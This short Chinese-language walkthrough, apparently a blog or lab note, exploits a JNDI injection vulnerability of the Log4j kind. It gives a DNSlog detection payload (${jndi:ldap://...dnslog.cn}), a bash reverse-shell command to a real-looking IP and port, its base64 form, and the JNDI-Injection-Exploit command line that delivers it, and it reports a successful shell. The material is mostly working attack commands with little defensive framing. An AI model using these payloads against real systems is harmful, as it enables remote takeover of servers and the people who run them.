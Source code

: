 ###### 1.DNSlog验证

首先再DNSlog获取域名，构造payload：payload=${jndi:ldap://tr2gk6.dnslog.cn}

![XqQMl9.png](https://s1.ax1x.com/2022/06/17/XqQMl9.png)



DNSlog网站接收到解析记录，说明存在漏洞

![XqQ3ex.png](https://s1.ax1x.com/2022/06/17/XqQ3ex.png)

###### **2.** JNDI注入反弹shell

首先下载好JNDI注入工具，上传到云服务器上

 

反弹shell指令:

bash -i >& /dev/tcp/124.222.155.178/8888 0>&1

 

进行base64编码

![XqQKSJ.png](https://s1.ax1x.com/2022/06/17/XqQKSJ.png)

 

JNDI启动:

第一处标红部分是经过base64编码过后的指令，第二处是监听服务器的IP地址。

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,<font color='red'>CmJhc2ggLWkgPiYgL2Rldi90Y3AvMTI0LjIyMi4xNTUuMTc4Lzg4ODggMD4mMQ==</font>}|{base64,-d}|{bash,-i}" -A <font color='red'>124.222.155.178</font>

![XqQlO1.png](https://s1.ax1x.com/2022/06/17/XqQlO1.png)

测试了用前两个都不行，使用第三个监听到了

 

设置监听

![XqQQyR.png](https://s1.ax1x.com/2022/06/17/XqQQyR.png)

 



 

反弹成功

![XqQ8w6.png](https://s1.ax1x.com/2022/06/17/XqQ8w6.png)

 

 